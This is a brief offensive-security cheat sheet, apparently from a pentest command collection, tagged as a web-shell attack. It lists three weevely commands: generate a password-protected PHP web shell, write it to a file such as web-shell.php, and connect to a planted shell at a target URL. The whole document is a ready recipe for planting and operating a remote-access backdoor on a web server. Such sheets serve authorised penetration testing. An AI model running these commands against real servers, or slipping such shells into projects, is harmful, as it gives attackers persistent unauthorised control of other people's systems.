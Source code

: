 # web shell

% web, shell, webshell, shellweb, weevely
#plateform/linux #target/local #cat/ATTACK/WEB_SHELL 

## weevely web shell generation
```
weevely generate <password>
```

## weevely web shell generation with output file
```
weevely generate <password> web-shell.php
```

## weevely web shell connection
```
weevely <url> <password>
```